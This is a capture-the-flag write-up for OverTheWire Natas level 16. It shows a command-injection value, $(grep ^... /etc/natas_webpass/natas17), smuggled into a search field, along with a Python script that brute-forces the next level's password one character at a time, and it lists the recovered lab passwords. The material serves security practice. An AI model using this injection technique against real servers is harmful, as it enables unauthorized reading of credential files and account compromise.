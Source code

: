 
> Password is `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`.

> Password is in this file: 
```
/etc/natas_webpass/natas17
```

> Checking the source code: 

![](./screenshots/16-1.png)

> We see whatever we input is placed inside qoutes, meaning anything we put is interpreted as text.
> Many of the special characters are blocked, only ones not blocked are `$` and `()`.

> What this implies is command substituion: executing a command and having its output replace the text of the command. 
```
$ echo "mins$(echo 123)"
> mins123
```

> We can use this to brute force the password using the `grep` command.
> Basically, if we enter into `key` a value present in `dictionary.txt`, we get an output, but if we dont get an output, then the value entered into `key` doesn't exist.

> We can use commad substitution to use this fact about `grep` commands, they return something if the value is present, and return nothing if value is not present.

> We can insert into `key` the following:
```
$(grep a /etc/natas_webpass/natas17)
```

> This transforms the injectable command to: 
```
grep -i <output-of-grep> dictionary.txt
```

1. If the `<output-of-grep>` is empty, this means `a` doesn't exist inside `/etc/natas_webpass/natas17`.
> Then the injectable command tries to fetch an empty string from `dictionary.txt`, meaning it returns everything found in `dictionary.txt`.

2. If the `<output-of-grep>` is not empty, this means `a` exists inside `etc/natas_webpass/natas17`, and `<output-of-grep>` IS the password we are looking for.
> Then the injectable command tries to fetch the value of the password from `dictionary.txt`, which we know isn't there. Therefore, it returns an empty output.

> Therefore, we can try a brute force attack, to look for all lowercase, upercase, and digit characters inside the substituted command. 
> We can do that by checking for the first character, and if we find that we dont return an output, then the first chatacer is correct, and we can search for the following character by concatenating it with the first one found. Using regular expressions with grep, we can check for the first character/characters of a line entry in a file.

> To test this out, we preprend a string that is present in `dictionary.txt` to the character we are trying, because it will be simpler than testing for the empty string and printing out all the entries in it.
> Let it be `Africans`. Therefore, if the substituted command works and we see that a character works, the subsituted command will return the password, and the injectable command will try looking for `Africans+password`, which will return nothing. But if the character fails, it will only look for `Africans`.

```python
import requests
import re
from string import *

auth_username = "natas16"
auth_password = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
url = "http://natas16.natas.labs.overthewire.org/"

session = requests.Session()

characters = digits + ascii_letters
password = ""

while len(password) < 32:
    for character in characters:
        print("Trying: " + password + character)
        response = session.post(url, data={"needle": "Africans$(grep ^" + password + character + " /etc/natas_webpass/natas17)"}, auth=(auth_username, auth_password))
        content = response.text
        if "Africans" not in content:
            password += character
            print("Password: " + password)
            break
```

> What this does is that uses regular expressions with `^` to look for characters at the beginning of an entry.
> If the substituted command, which is `grep ^character /etc/natas_webpass/natas17` finds a correct character at the beginning, it will try this same character and concatenate to it the next character to try, now looking for 2 characters, and so on.
> We stop when the password has 31 characters, since that is the length of the password.

> Running this script, we get the password.

```
natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```

---
